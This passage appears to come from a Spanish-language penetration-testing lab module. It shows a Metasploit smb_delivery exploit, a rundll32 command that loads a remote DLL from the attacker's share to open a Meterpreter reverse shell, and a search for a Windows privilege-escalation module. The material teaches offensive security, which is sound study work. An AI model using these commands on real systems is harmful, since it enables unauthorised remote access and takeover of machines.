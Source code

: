 ```shell-session


msf6 exploit(windows/smb/smb_delivery) > exploit 
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Started service listener on 10.10.14.3:445 
[*] Server started.
[*] Run the following command on the target machine:
rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
```

#### Comando rundll en el host de destino

Abra una consola CMD en el host de destino y pegue en el`rundll32.exe`dominio.

  Servidor de Windows

```cmd-session
C:\htb> rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
```

#### Recibir carcasa inversa

Recibimos una llamada rápidamente.

  Servidor de Windows

```shell-session
msf6 exploit(windows/smb/smb_delivery) > [*] Sending stage (175174 bytes) to 10.129.43.15
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.129.43.15:49609) at 2021-05-12 15:55:05 -0400
```

#### Buscando exploit de escalada de privilegios locales

Desde aquí, busquemos el[MS10_092 Windows Task Scheduler '.xml' Escalación de privilegios](https://www.exploit-db.com/exploits/19930)módulo.

  Servidor de Windows

```shell-session
msf6 exploit(windows/smb/smb_delivery) > search 2010-3338

Matching Modules
================
   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/windows/local/ms10_092_schelevator  2010-09-13       excellent  Yes    Windows Escalate Task Scheduler XML Privilege Escalation
   
   
msf6 exploit(windows/smb/smb_delivery) use 0
```

#### Migrar a un proceso de 64 bits
